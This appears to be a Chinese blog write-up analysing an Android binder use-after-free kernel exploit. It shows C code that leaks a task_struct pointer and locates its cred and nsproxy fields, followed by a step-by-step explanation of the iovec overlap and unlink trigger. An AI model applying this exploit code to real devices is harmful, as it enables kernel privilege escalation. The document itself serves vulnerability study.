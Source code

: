```c
        ERR("\t[-] writev failed. nBytesWritten: 0x%lx, expected: 0x%x\n", nBytesWritten, PAGE_SIZE * 2);
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Wrote 0x%lx bytes\n", nBytesWritten);
    }
    // Now read the actual data from the corrupted iovec
    // This is the leaked data from kernel address space
    // and will contain the task_struct pointer
    nBytesRead = read(pipe_fd[0], dataBuffer, sizeof(dataBuffer));
    if (nBytesRead != PAGE_SIZE) {
        ERR("\t[-] read failed. nBytesRead: 0x%lx, expected: 0x%x", nBytesRead, PAGE_SIZE);
        exit(EXIT_FAILURE);
    }
    // Wait for the child process to exit
    wait(nullptr);
    m_task_struct = (struct task_struct *) *((int64_t *) (dataBuffer + TASK_STRUCT_OFFSET_IN_LEAKED_DATA));

    m_pidAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, pid));
    m_credAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, cred));
    m_nsproxyAddress = (void *) ((int8_t *) m_task_struct + offsetof(struct task_struct, nsproxy));
    INFO("[+] Leaked task_struct: %p\n", m_task_struct);
    INFO("\t[*] &task_struct->pid: %p\n", m_pidAddress);
    INFO("\t[*] &task_struct->cred: %p\n", m_credAddress);
    INFO("\t[*] &task_struct->nsproxy: %p\n", m_nsproxyAddress);
}
```

很好理解，exp这部分首先初始化环境之后创建用于readv和writev的pipe，readv和writev函数用于在一次函数调用中读、写多个非连续缓冲区。修改pipe的size为0x1000。

之后创建了25个iovec，放在iovecStack里面。25个是根据binder_thread和iovec的大小算出来

`IOVEC_WQ_INDEX (int) = (offsetof(struct binder_thread, wait) / sizeof(struct iovec))`

binder_thread结构体大小为408，25个iovec大小为25*16=400，正好。计算对比**binder_thread**中wait.head的偏移0xA0和**iovecStack**的偏移iovecStack[10].iov_len匹配。

![img](https://my-md-1253484710.file.myqcloud.com/20200629155854.png)

前面动态调试时也能看到会有两个地址的值会被写入地址，这里相对应的位置为iovecStack[10].iov_len 和iovecStack[11].io_base。所以我们这里要修改iovecStack[10]的iov_len和pipe一样的大小，阻塞掉父进程的writev系统调用，再去触发unlink操作。

这里的iovecStack[10].io_base正好对上binder_thread->wait.lock，如果这个值不为0的话，后面在尝试取自旋锁锁会出问题，不进行unlink操作，这个值是32bit的，iov_base是64bit的，所以要设置对齐，使用mmap保证低32bit为0。

iovecStack[10].iov_len和iovecStack[11].iov_len设置为pipe size的大小，iovecStack[11].io_base 设置为新分配的一个地址，

创建fork子进程进行EPOLL_CTL_DEL操作触发unlink。读出0x1000 bytes的垃圾数据恢复进程，

父进程free掉binder_thread，调用writev系统进行阻塞，等待子进程完成。

最后父进程在调用read读出已经被子进程覆盖了内核地址处的数据，根据偏移读出泄露的task_struct指针。

下面这张图是**Project Zero** blog贴出来的流程图，方便理解整个过程。
